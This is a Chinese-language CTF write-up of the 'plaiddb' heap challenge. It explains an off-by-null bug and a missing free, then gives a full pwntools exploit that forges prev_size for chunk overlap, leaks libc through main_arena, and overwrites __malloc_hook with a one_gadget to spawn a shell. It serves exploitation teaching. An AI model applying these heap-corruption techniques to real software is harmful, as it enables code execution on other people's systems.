# ctf_wiki plaiddb

## 功能

关键结构体：

```c
struct Node{
    char *rowkey;
    __int64 size;
    char *data;
    struct Node *left;
    struct Node *right;
    dummy1;
    dummy2;
}
```

虽然使用红黑树，但是不影响漏洞利用。

while 循环主要功能：

- add (PUT)





PUT 先 malloc 0x38 存放用户输入的 rowkey，并调用 `vuln_read_rowkey` 读取用户输入的 rowkey，然后根据用户输入的 size malloc 相应的 data。

在创建新的 node 时，会先从红黑树中搜寻是否已经存在相同 rowkey 的 node ，如果存在：

1. free 新的 `Node->rowkey`
2. free 旧的 `Node->data`
3. 将旧的 node 的 size 和 data 更新为新的 node 的 size 和 data（更改旧 `node->data` 指向）
4. 打印 "update successful"

如果不存在，打印 "insert successful"

- free (DEL)



- show (GET)



## 漏洞

- off-by-null



readrowkey 函数会先 malloc 8，用于存放用户输入的 rowkey ，如果不够，则每次会 realloc 两倍大小。结尾对 rowkey 字符串补 \x00 时存在 off-by-null 漏洞。

- DEL 忘记 free rowkey 内存



当用户 DEL 输入的 rowkey 不存在于红黑树中时，并没有 free 掉已经给该 rowkey 分配的内存，而是直接 return。

## 利用原理

程序的 PUT 功能会经常 malloc 0x38，所以我们可以先 malloc 很多个 0x38，然后 free 进 fastbin，避免后续利用时影响其他堆块（unsorted bin）分配。

```python
for i in range(10):
        put(str(i), 0x38, str(i))

    for i in range(10):
        delete(str(i))
```

由于此时已经存在大量的 0x20 和 0x40 的 fastbin，当再次 PUT 的时候，我们指定 size 大小的 chunk 都会连续分布在 heap 最后，而不会受到 malloc 8 和 malloc 0x38 的影响。

先分配如下 chunk：

```python
PUT("1",0x200,"a"*0x200)
PUT("2",0x50,"b"*0x50) # 为 leak libc 做准备
PUT("3",0x68,"c"*0x68) # 为 fastbin attack 做准备
PUT("4",0x1f8,"a"*0x1f8) # 触发 off-by-one 的 chunk
PUT("5",0xf0,"a"*0xf0) # 用来篡改 prev size，并 unlink 合并前面所有 chunk 的块
PUT("6",0x400,"p"*0x400)# 防止 DEL(5) 时和 top chunk 合并,同时收集合并前面 for 循环 free 产生的大量 0x20 和 0x40 的 fastbin
```

主要关注前 5 个 chunk 的作用：



首先按顺序 free 掉 3 号、4 号、1 号：

```python
DEL("3")
DEL("4")
DEL("1")
```



通过 `DEL("a"*0x1f0 + p64(0x4e0))` ，重新申请到 4 号 chunk，并伪造 prev size 为 0x4e0，也就是 1，2，3，4 chunk 大小之和。这样同时也会覆盖掉 5 号 chunk 的 size 位，使得 glibc 误认为 4 号 chunk 仍然是 free 状态。



```python
DEL("5")
```



当 free 掉 5 号 chunk 时，由于 size 位被覆盖了 `\x00`，glibc 认为 4 号 chunk 是 free 状态。因此 5 号 chunk 通过 prev size 找寻 “与之相邻的前一个 chunk”。由于 prev size 在上一步已被伪造，因此找到的 1 号 chunk。导致 1，2，3，4，5 都被合并为一个大的 unsorted bin（图右），但是其中的 2 号 chunk 实际上是被使用状态，如果可以将 unsorted bin 移动到此时 2 号 chunk 的位置，就可以通过 `GET("2")` 来泄露 unsorted bin 的地址（实际泄露的是 `main_arena+88`）。

此时，查看堆布局：



下一步的目标是将 unsorted bin （唯一的）移动到 2 号 chunk 的位置。其实只需要从大的 unsorted bin 中切割 0x200 即可（也就是重新把 1 号 chunk 分配回去）但是直接 malloc 0x200 无法做到这一点(可以在 gdb 中用 call malloc(0x200) 验证)，原因如下：

在最开始 PUT 的 chunk 中，为了防止和 top chunk 合并，我们 PUT 了一块大小为 0x400 的 chunk，malloc 0x400 会清空合并当时所有的 fastbin，产生一个 0x360 的 small bin。直接 malloc 0x200 由于 unsorted bin 中没有合适的大小，会使得 0x5e0 的 unsorted bin 被分入 large bin，而拿到的实际上是分割掉 0x200 的 small bin。

也就是说，本来我们预期切割的 0x5e0 的 unsorted bin 并未被切割，而是被放置到 large bin 中。而实际上切割的是 `PUT("6",0x400,"p"*0x400)` 收集的 small bin。

所以新的目标就是切割这个 0x5e0 的 large bin。很简单，只需要再次 malloc 0x200 即可。因为此时的 unsorted bin 是 0x360 的 small bin 切割 0x200 后剩下的 0x150，不满足 0x200 要求，会被放到 small bin。而再去从大的 large bin 中切割。

因此，先 PUT 0x200 消耗掉 small bin。然后再 PUT 0x200 ：

```python
PUT("anything1",0x200,"x"*0x200)
PUT("anything2",0x200,"x"*0x200)
```



此时 `GET("2")` 即可拿到 `main_arena+88` 的地址，从而泄露出 `libc_base` 、`one_gadget` 和 `__malloc_hook` 地址。

```python
GET("2")
p.recvuntil("INFO: Row data [80 bytes]:\n")
call_back = u64(p.recv(6).ljust(8,"\0"))
offset = 0x3c4b78
libc_base = call_back - offset
one_offset = 0x4527a
one_gadget = libc_base + one_offset
```

下一步就是 getshell 了。因为现在存在 chunk overlap，同时我们提前在 3 号 chunk 的位置布置了用来 fastbin attack 的大小 0x70，那么直接从此时的 unsorted bin 中继续切割到 0x70 的 chunk ，布置好 fake size ，剩下就是 fastbin attack 的套路了：



图左为 glibc 认为的堆布局，图右为 实际的布局。




```python
fake_chunk = libc_base + libc.sym["__malloc_hook"] - 0x13
payload = flat([
    "A"*0x58,0x71,
    fake_chunk
]).ljust(0x100,"\0")
PUT("fake_chunk",0x100,payload)
```



然后将 `one_gadget` 写入 `__malloc_hook`,然后再触发 malloc ，即可 getshell。

如下是完整 exp。

## my_solve

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./datastore"
libc_binary = "/lib/x86_64-linux-gnu/libc.so.6"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
libc = ELF(libc_binary)

context.arch = "amd64"

def opt(cmd):
    p.sendlineafter("PROMPT: Enter command:\n",str(cmd))

def PUT(rowkey,size,data):
    opt("PUT")
    p.sendlineafter("PROMPT: Enter row key:\n",str(rowkey))
    p.sendlineafter("PROMPT: Enter data size:\n",str(size))
    p.sendlineafter("PROMPT: Enter data:\n",str(data))

def GET(rowkey):
    opt("GET")
    p.sendlineafter("PROMPT: Enter row key:\n",str(rowkey))

def DEL(idx):
    opt("DEL")
    p.sendlineafter("PROMPT: Enter row key:\n",str(idx))

def DUMP():
    opt("DUMP")

def EXIT():
    opt("EXIT")


# gdb.attach(p,"tracemalloc on\n")
for i in range(10):
    PUT(str(i),0x38,str(i)*0x38)

for i in range(10):
    DEL(str(i))

PUT("1",0x200,"a"*0x200)
PUT("2",0x50,"b"*0x50)
PUT("3",0x68,"c"*0x68)
PUT("4",0x1f8,"a"*0x1f8)
PUT("5",0xf0,"a"*0xf0)
PUT("6",0x400,"p"*0x400) # 防止DEL(5)时和 top chunk 合并,同时收集合并前面for循环free产生的大量0x20和0x40的fastbin

DEL("3")
DEL("4")
DEL("1")

DEL("a"*0x1f0 + p64(0x4e0))

DEL("5")
PUT("anything1",0x200,"x"*0x200)
PUT("anything2",0x200,"x"*0x200)

# leak libc_base , one_gadget addr
GET("2")
p.recvuntil("INFO: Row data [80 bytes]:\n")
call_back = u64(p.recv(6).ljust(8,"\0"))
offset = 0x3c4b78
libc_base = call_back - offset
one_offset = 0x4527a
one_gadget = libc_base + one_offset
log.success("one_gadget addr is -> "+ hex( one_gadget ))

fake_chunk = 0x7ffff7dd1afd
# fake_chunk = libc_base + libc.sym["__malloc_hook"] - 0x13
payload = flat([
    "A"*0x58,0x71,
    fake_chunk
    ]).ljust(0x100,"\0")
PUT("fake_chunk",0x100,payload)
PUT("padding",0x68,"a".ljust(0x68,"\0"))
payload = flat([
    "a"*0x3,one_gadget,one_gadget,one_gadget
    ]).ljust(0x68)
PUT("attack",0x68,payload)
# gdb.attach(p,"set $hk=0x7ffff7dd1b10")

p.interactive()
```

## 参考资料

[https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/off_by_one-zh/](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/off_by_one-zh/)

[https://4ngelboy.blogspot.com/2016/10/span-display-block-overflow-hidden_10.html](https://4ngelboy.blogspot.com/2016/10/span-display-block-overflow-hidden_10.html)

[https://www.bilibili.com/video/BV1hW41187q2](https://www.bilibili.com/video/BV1hW41187q2)
